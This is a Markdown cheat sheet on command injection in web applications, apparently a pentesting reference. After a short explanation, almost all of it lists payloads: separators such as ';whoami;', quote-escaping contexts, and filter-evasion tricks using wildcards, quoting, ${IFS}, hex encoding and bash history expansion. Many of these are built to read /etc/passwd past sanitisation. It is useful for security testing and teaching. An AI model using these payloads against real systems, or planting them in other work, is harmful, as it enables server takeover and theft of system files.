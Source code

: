 # Command injection

Abuse of functionality in web applications, where it is possible to inject arbitrary commands and takeover entire server.
Vulnerability often happens while using 'dangerous' functions that have ability to execute commands like PHP's system, shell_exec, passthru, exec. 

### Injection sequences
`;whoami;`  
`&whoami`  
`&&whoami`  
`|whoami`   
`||whoami`  
`%0awhoami`  

Unix-only  
`` ;`whoami`; ``  
`;$(whoami);`  

### Contexts
Depending on vulnerable functionality, escaping the code in order to inject commnands might be necessary.  
`';whoami`  
`');whoami`   
`");whoami`  
...  

### Keyword bypass
Different way of executing 'whoami' command. These could bypass sanitisations.  
`/usr/bin/wh?ami`  
`/usr/bin/who*mi`  
`/usr/bin/whoam[i]`  
`'w'h'o'a'm'i`  
`"w"h"o"a"m"i`  
`\w\h\o\a\m\i`  
`who''ami`  
`who""ami`   
`` w`u`h`u`o`u`a`u`m`u`i ``  
`w$(u)h$(u)o$(u)a$(u)m$(u)i`  

### Space bypass  
`CAT${IFS}/etc/passwd`  
`cat${IFS%??}/etc/passwd`    
`cat\t/etc/passwd`  
`{cat,/etc/passwd}`   
`X=$'cat\x20/etc/passwd'&&$X`  
`IFS=];a=cat]/etc/passwd;$a`  

Windows only:  
`ping%PROGRAMFILES:~10,-5%127.0.0.1`

### Hex encoding bypasses
All of these execute 'cat /etc/passwd'.  
`` cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"` ``  
`` `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'` ``  
`a=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $a`  
`` cat `xxd -r -p <<< 2f6574632f706173737764` ``  
`` cat `xxd -r -ps <(echo 2f6574632f706173737764)` ``

### Slash and Backslash bypass
`cat ${PWD:0:1}etc${PWD:0:1}passwd`  
`cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd`   

### Misc execution tricks
Through '$0' sequence.  
`echo whoami|$0`  

Through historic commands. '!!' and '!-1' equals to last command executed, '!-2', second to last, etc..  
`ami`    
`who`  
`!-1!-2`
